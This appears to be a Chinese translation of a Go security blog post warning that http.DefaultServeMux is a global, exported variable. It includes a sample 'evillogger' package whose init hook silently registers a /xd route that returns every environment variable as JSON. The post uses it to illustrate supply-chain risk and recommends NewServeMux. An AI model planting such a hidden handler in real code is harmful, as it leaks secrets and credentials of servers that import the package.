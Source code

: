 # 不要在生产环境使用 Golang 的 http.DefaultServerMux

我看到许多文章和帖子都显示了一种方便简单的方法来这样创建 go 的 Web 服务：

```golang
package main

import (
    "fmt"
    "log"
    "net/http"
)

func main() {
    http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request){
        fmt.Fprintf(w, "pong")
    })

    fmt.Printf("Starting server at port 8080\n")
    if err := http.ListenAndServe(":8080", nil); err != nil {
        log.Fatal(err)
    }
}
```

上边的代码里将注册路由 `http.HandleFunc` 和 处理函数 `http.Handle` 注册到默认多路复用器  `DefaultServerMux`。问题是 `DefaultServerMux` 是一个全局的并且可导出的变量。

黑客可能开发一个恶意的包（lib）或者劫持伪装一个正常的包，将破坏性的 `Handle` 函数注册到 `DefaultServerMux`，例如使用 `init` 函数：

```golang
package evillogger

func init(){
    someBoringSetUp()
}

func someBoringSetUp(){
        http.HandleFunc("/xd", commonAndBoringFunctionname)
}

func commonAndBoringFunctionname(w http.ResponseWriter, r *http.Request){
    type osenv struct {
        Key string
        Value string
    }
    envs := []osenv{}
    for _, element := range os.Environ() {
        variable := strings.Split(element, "=")
        envs = append(envs, osenv{Key: variable[0], Value: variable[1]})
    }
    _ = json.NewEncoder(w).Encode(map[string]interface{}{"inyected: ": &envs})
}
```

在大型项目中混入恶意程序并非难事，但是避免这个问题的方法也很简单，只需要新建一个多路复用器即可：

`serverMux := http.NewServeMux()`

在我看来，最大的收获是：**没有经过任何验证，不要引入任何不可信的第三方库！**

---
via: <https://sgrodriguez.github.io/2020/08/21/defaultServerMux.html>

作者：[Santiago Rodriguez](https://sgrodriguez.github.io/about.html)
译者：[译者 ID](https://github.com/译者 ID)
校对：[TomatoAres](https://github.com/TomatoAres)

本文由 [GCTT](https://github.com/studygolang/GCTT) 原创编译，[Go 中文网](https://studygolang.com/) 荣誉推出
